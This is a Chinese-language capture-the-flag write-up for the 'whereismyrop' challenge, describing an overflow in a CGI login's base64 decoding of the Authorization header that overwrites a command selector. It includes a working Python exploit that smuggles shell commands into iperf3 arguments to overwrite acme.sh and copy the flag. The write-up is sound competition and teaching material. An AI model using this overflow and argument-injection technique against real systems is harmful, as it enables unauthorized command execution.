

# 前言
这次比赛感觉还行, 和火箭一起三题出了两题, 另一题相对简单, 堆上的溢出, 主要是逆向难度较低, 所以做出的人很多
这题的门槛感觉就高了一些, 虽然漏洞点并不难理解, 但是估计交互方式卡住了一批人(我也搞了半天, 后来火箭发现login.js提供了交互模板, 配合上逆向就很容易看懂了)

# 题目运行逻辑
题目给了一个docker, 我看了眼start.sh, 启动了一个apache的服务, 然后就是启动basement程序了, 我还以为可以直接跟basement交互, 刚开始看了一会basement, 才发现他的socket是走的文件, 才看到cgi-bin中的login.cgi

所以真正的交互逻辑是向login.cgi发送请求, login.cgi解析后通过libCgi.so中的send_cmd函数向basement发送消息, 等待basement返回, 最后将返回值传回

并且basement中有十二个可以选择的函数, 但是login.cgi中只允许选择login, register, reset_password三个操作

# 漏洞点
漏洞出现在login.cgi中, 在decodeBase64函数中, 解析HTTP_AUTHORIZATION的时候没有限制长度, 所以会出现一个向bss段上的无限写入
选择basement中函数的变量刚好就在后面, 可以被覆盖, 所以通过这个漏洞就可以选择basement中的十二个的函数执行了


还有一个关键就是HTTP_AUTHORIZATION解析得到的值会作为函数执行的参数, 就等于可以控制参数的执行basement的任意函数了

# 调试技巧
本题是在docker内运行, 所以必不可少的是gdbserver调试
主要需要调试的程序有login.cgi, basement两个.
其中basement还好说, 毕竟是长时间运行的, 只要在docker attach到basement进程即可

我刚开始没想到怎么调试login.cgi, 后来火箭提醒我可以设置一个prelogin.cgi, 其中内容写
```sh
#!/bin/bash
gdbserver :9999 /usr/cgi-bin/login.cgi
```
这样每次需要调试login.cgi时, 就访问prelogin.cgi, 然后在docker外部启动gdb, 使用命令target remote:9999即可

# 利用方式
不得不说太神奇了, Linux仙人火箭用basement的iperf3做到了向acme.sh文件中写入命令, 然后再用basement中执行acme.sh命令的函数触发, 就可以做到命令执行
示例:
```sh
iperf3 -s -p 7070 
iperf3 -c 127.0.0.1 -p 7070 -T "cat flag" --logfile /root/.acme.sh/acme.sh
```
在第一行命令启动服务端后, 第二行命令链接本地的服务端, -T是title str, 会将"cat flag"放在每一行输出的头部, --logfile是将输出写到文件里, 就可以向acme.sh写入任意内容
basement中的6和8分别可以控制带参数执行服务端和客户端的iperf3

然后在10, 11, 12中都可以执行acme.sh获取命令执行
最后还被出题人恶心了一把, 真正的flag名字为什么什么flaG什么什么
昨天尝试读flag时试了`*flag*`都不行, 直接给我和火箭看傻了

还好后来火箭又找到一个办法, 用了`find / -maxdepth 1 -fprint /var/www/html/ls.html`得到根目录下所有文件名字

最后再通过`cp *flaG* /var/www/html/flag.html`, 访问`ip:port/flag.html`即可

# exp
```python
import requests
from urllib.parse import quote
import base64
from bs4 import BeautifulSoup
from pwn import *

url_port = '127.0.0.1:7070'

def hack(arg1: str, arg2: str, cmd: int):
    auth_str = arg1.encode() + b':' + arg2.encode() + b':randstr:'
    auth_str = auth_str.ljust(0x200) + p8(cmd)
    b64_auth = base64.b64encode(auth_str).decode('utf-8')
    
    headers = {
        'Authorization': f'Basic {b64_auth}',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    login_url = f"http://{url_port}/cgi-bin/login.cgi?reset_password"
    data = f"id={str(id_value)}"
    
    response = requests.post(login_url, headers=headers, data=data)
    print(f"{response.headers}")
    

if __name__ == "__main__":
    id_value = str(111111111111111111111111)
    hack('127.0.0.1', '7070', 6)
    hack('127.0.0.1', '7070 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', 9)
    hack('127.0.0.1', '7070 -T "cp /*flaG* /var/www/html/flag.html # " --logfile /root/.acme.sh/acme.sh', 9)
    hack(' ', ' ', 11)

```

# 后记
这题叫whereismyrop, 导致我一直非常认真地检查basement中的读入有没有溢出, 结果居然溢出出现在login.cgi, 而且是以并不能rop的形式出现, 也是有些戏剧性了. 蹲一手wp, 不会真的能做到rop吧
